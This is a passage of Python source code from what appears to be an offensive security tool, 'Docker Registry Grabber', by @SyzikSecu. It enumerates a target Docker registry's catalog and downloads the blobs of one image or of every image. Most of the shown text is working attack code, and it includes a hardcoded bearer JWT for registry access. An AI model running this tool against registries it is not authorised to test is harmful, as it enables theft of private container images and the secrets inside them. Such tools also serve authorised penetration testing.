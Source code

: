 ```python
            sys.exit(1)
        else :
            sha256 = []
            cpt = 1
            for sha in blobSum:
                console.print(f"[+] BlobSum found {cpt}", end='\r', style="OK")
                cpt += 1
                a = re.split(':|,',sha)
                sha256.append(a[2].strip("\""))
            print()
            return sha256

def enumList(url, port, username=None, password=None,checklist=None):
    cookie = {'Authorization':'Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6IlFYNjY6MkUyQTpZT0xPOjdQQTM6UEdRSDpHUVVCOjVTQk06UlhSMjpUSkM0OjVMNFg6TVVZSjpGSEVWIn0.eyJpc3MiOiJBY21lIGF1dGggc2VydmVyIiwic3ViIjoiIiwiYXVkIjoiRG9ja2VyIHJlZ2lzdHJ5IiwiZXhwIjoxNjkwNTI0MTg4LCJuYmYiOjE2OTA1MjMyNzgsImlhdCI6MTY5MDUyMzI4OCwianRpIjoiNjA3NzM5NTYyMzkwNTI5NjY3MSIsImFjY2VzcyI6W3sidHlwZSI6InJlZ2lzdHJ5IiwibmFtZSI6ImNhdGFsb2ciLCJhY3Rpb25zIjpbIioiXX1dfQ.IMKOSfl4SURM9alvmF7Yadf7b3hmMBI79H5hQWrrev4zHwLc4CDIo43Ndo4QduNEI0TUJ7S3kTgUDFWek7B_zbohJouVOY3HvbASWvZHKS-cp4MT3565jkNwZug51N-r5cjpJfMBy90rTeeCmswsjZMzQ3pJHL5Db_ceIn0mJc0ZCG1zMcET76MhLn61WREznh7vDpPnA6M1sHGwFQiddKMIWTIoi7fI_EdRCUskJmXP6WsTvsKs-DsFE-odMlYGd4452RQWW-wTuiqlnXuLHDcVh19sOuwUCd7tTIC7F1OkwCHJw2_vBf_sICBEmPPQYVkyz5Wqfj3cuM1KDYRnoA'}
    url = f"{url}:{str(port)}/v2/_catalog"
    try :
        r = tryReq(url,cookie,username,password) 
        if r.status_code == 200:
            catalog2 = re.split(':|,|\n ',r.text)
            catalog3 = []
            for docker in catalog2:
                dockername = docker.strip("[\'\"\n]}{")
                catalog3.append(dockername)
        printList(catalog3[1:])
        return catalog3
    except:
        exit()

def dump(args):
    sha256 = getBlob(args.dump, args.url, args.port, args.username, args.password)
    console.print(f"[+] Dumping {args.dump}", style="OK")
    downloadSha(args.url, args.port, args.dump, sha256, args.username, args.password)

def dumpAll(args):
    dockerlist = enumList(args.url, args.port, args.username,args.password)
    for docker in dockerlist[1:]:
        sha256 = getBlob(docker, args.url, args.port, args.username,args.password)
        console.print(f"[+] Dumping {docker}", style="OK")
        downloadSha(args.url, args.port,docker,sha256,args.username,args.password)

def options():
    args = manageArgs()
    if args.list:
        enumList(args.url, args.port,args.username,args.password)
        
    elif args.dump_all:
        dumpAll(args)
    elif args.dump:
        dump(args)

if __name__ == '__main__':
    print(f"[+]======================================================[+]")
    print(f"[|]    Docker Registry Grabber v1       @SyzikSecu       [|]")
    print(f"[+]======================================================[+]")
    print()
    urllib3.disable_warnings()
```